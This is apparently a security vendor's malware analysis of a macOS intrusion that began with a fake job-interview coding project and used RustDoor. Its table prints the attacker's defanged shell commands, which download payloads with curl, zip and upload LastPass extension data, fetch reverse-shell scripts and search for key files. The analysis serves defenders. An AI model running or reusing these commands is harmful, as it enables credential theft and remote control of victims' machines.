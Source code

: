 ## Execution and Download of Malware
When examining attacker activity on the infected endpoints, we noticed their persistent nature, as attackers attempted to execute several different malware variants. When these attempts were prevented by Cortex XDR, the attackers tried redeploying and executing additional malware to evade detection. Analyzing one of these attacks, we can divide it into three distinct stages:

Attempting to execute two RustDoor variants
Trying an additional RustDoor variant and attempting a reverse shell
Running a previously undocumented macOS Koi Stealer variant
We describe these phases in the following sections, starting with the initial attempt to execute two RustDoor variants.

## Attempting to Execute Two RustDoor Binaries
Initially, when executing the fake job interview project within Visual Studio, the malicious code attempts to download and execute two separate Mach-O binaries of RustDoor. Figure 1 shows the names and locations of these Mach-O files from a Cortex XDR alert blocking the activity.

The paths of the RustDoor files are:

/Users/$USER$/.zsh_env
/Users/$USER$/Library/VisualStudioHelper
Screenshot of table in Cortex XDR showing columns including Alert Source, Action, Category, Alert name and more. 
Figure 1. RustDoor malware locations from the Cortex XDR alert blocking the activity.

## An Additional RustDoor Binary and Attempting to Open a Reverse Shell
After the first two RustDoor binaries’ executions were prevented, the attackers executed another sample of RustDoor. The malware then attempted to steal sensitive data such as passwords from the LastPass Google Chrome extension, exfiltrate data to its C2 server and download two additional bash scripts. These bash scripts are intended to open a reverse shell connection with the attackers.

Figure 2 shows the different commands executed by this RustDoor binary.

Screenshot of Cortex XDR. Flowchart diagram showing a malware attack process with nodes labeled from initial access to command execution. Nodes are interlinked, indicating sequence and actions such as "Download the malware - curl 0.h.sh" and "Retrieve reverse shell script."
Figure 2. The execution and commands of the second RustDoor binary.
Table 1 shows the different command lines from Figure 2 and their respective descriptions.

Command Line	Description
curl -O -s hxxps://apple-ads-metric[.]com/npm	Download RustDoor
chflags hidden npm	Set RustDoor to be hidden on disk
chmod +x npm	Grant RustDoor execution permissions
log stream --predicate eventMessage contains "com.apple.restartInitiated" or eventMessage contains "com.apple.shutdownInitiated" --info 	Retrieve information about shutdown and restart events
zsh -c zip -r [redacted].zip /Users/$USER$/Library/Application\ Support/Google/Chrome/Default/Local\ Extension\ Settings/aeblfdkhhhdcdjpifhhbdiojplfjncoa    	Steal LastPass data from Google Chrome's extension for LastPass
zsh -c curl -F file=[redacted].zip hxxps://visualstudiomacupdate[.]com/tasks/upload_file	Data exfiltration attempt
zsh -c curl -O -s hxxps://apple-ads-metric[.]com/back.sh 	Reverse shell script No. 1
zsh -c curl -O -s hxxps://apple-ads-metric[.]com/sh.sh && chmod +x sh.sh 	Reverse shell script No. 2 and grant execution permissions
zsh -c mdfind -name .pem	Searching for public keys
Table 1. The command lines executed by RustDoor and their description.
